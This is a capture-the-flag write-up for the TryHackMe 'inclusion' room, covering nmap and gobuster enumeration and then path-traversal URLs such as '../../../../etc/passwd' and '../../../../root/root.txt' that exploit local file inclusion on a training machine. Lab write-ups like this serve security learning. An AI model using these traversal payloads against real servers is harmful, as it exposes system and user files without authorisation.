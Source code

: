 ```yaml
---
title: "THM:inclusion"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/inclusion"
categories: [ctf, thm]
tags: [ctf,nmap,gobuster,dirbuster,lfi,local-file-inclusion]
---
```

# inclusion

URL: [https://tryhackme.com/room/inclusion](https://tryhackme.com/room/inclusion) &nbsp;<span class="badge rounded-pill bg-success" title="This is an Easy difficulty room."><i class="fa fa-bolt"></i>&nbsp;Easy</span>

## PHASE 1: Reconnaissance

Description of the room:

> This is a beginner level room designed for people who want to get familiar with Local file inclusion vulnerability.
>  
> If you have any kind of feedback please reach out to me on twitter at [0xmzfr](https://twitter.com/0xmzfr)

## PHASE 2: Scanning & Enumeration

### Running: `nmap`

Ran the following:

> `nmap -sC -sV xxx.xxx.xxx.xxx`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

*Also see: [nmap.log](nmap.log)*

### Running: `gobuster`

Ran the following:
> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/article              (Status: 500) [Size: 290]
```

*See also: [gobuster.log](gobuster.log)*

## PHASE 3: Gaining Access

What we discover is there is only one folder on this server (that is `/article`) and as a `name` argument, it seems to take a file name.

So, we go back, back, back up a few directories to see if we can get the web server to print out the contents of other interesting files on the server.

### STEP 1: Find usernames

> http://10.10.110.200/article?name=../../../../etc/passwd

### STEP 2: Get unprivileged user flag

> http://10.10.110.200/article?name=../../../../home/falconfeast/user.txt

### STEP 3: Get root flag

> http://10.10.110.200/article?name=../../../../root/root.txt

By using this technique, we were able to get a value username (`falconfeast`) and read the `user.txt` file, and also step into the `/root` folder to read the `root.txt` file. The contents of those files were the two flags for this room.

## PHASE 4: Maintaining Access

We never got direct access to this box, so no access to maintain.

## PHASE 5: Clearing Tracks

We never had direct access. Nothing to do.

## Summary

Completed: [2022-01-19 21:50:56]